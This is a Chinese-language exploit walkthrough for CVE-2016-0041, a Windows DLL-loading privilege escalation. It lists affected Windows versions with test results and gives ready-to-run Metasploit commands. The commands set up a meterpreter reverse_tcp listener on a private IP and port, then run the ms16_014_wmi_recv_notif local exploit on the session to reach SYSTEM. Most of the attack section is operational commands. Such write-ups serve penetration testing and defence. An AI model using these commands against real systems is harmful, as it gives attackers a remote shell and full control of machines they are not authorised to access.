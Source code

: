 ### CVE-2016-0041

#### 描述

错误处理了DLL加载，从而允许本地加载获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested                   |
| ------------------- | ---------------- | ------- | ------ | ------------------------ |
| Windows 10          |                  |         |        |                          |
| Windows 10          |                  | 1511    |        |                          |
| Windows 7           |                  |         | SP1    | :heavy_check_mark:       |
| Windows 8.1         |                  |         |        |                          |
| Windows Rt 8.1      |                  |         |        |                          |
| Windows Server 2008 |                  |         | SP2    | :heavy_multiplication_x: |
| Windows Server 2008 |                  | R2      | SP1    | :heavy_multiplication_x: |
| Windows Server 2012 |                  |         |        | :heavy_multiplication_x: |
| Windows Server 2012 |                  | R2      |        | :heavy_multiplication_x: |
| Windows Vista       |                  |         | SP2    |                          |

#### 利用方式

测试了网上能够找到的c++代码版本，Windows 7 x86/x64都会蓝屏，Windows Server 2008/2012所有版本都没反应，所有这边只能使用MSF版本。MSF版本中只有`payload/windows/x64/meterpreter/reverse_tcp`版本的反弹shell能够利用，`payload/windows/meterpreter/reverse_tcp`版本利用失败

测试系统Windows 7 sp1 x64，首先进行监听

```bash
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.9
set lport 12345
run
```

可以看到如下的反弹shell

![CVE-2016-0041_win7_sp1_x64_01](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0041_win7_sp1_x64_01.png?raw=true)

接着使用提权漏洞

```bash
use exploit/windows/local/ms16_014_wmi_recv_notif
set session 2#你当前的session
run
```

![CVE-2016-0041_win7_sp1_x64_02](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0041_win7_sp1_x64_02.png?raw=true)

可以看到我们最后成为了SYSTEM权限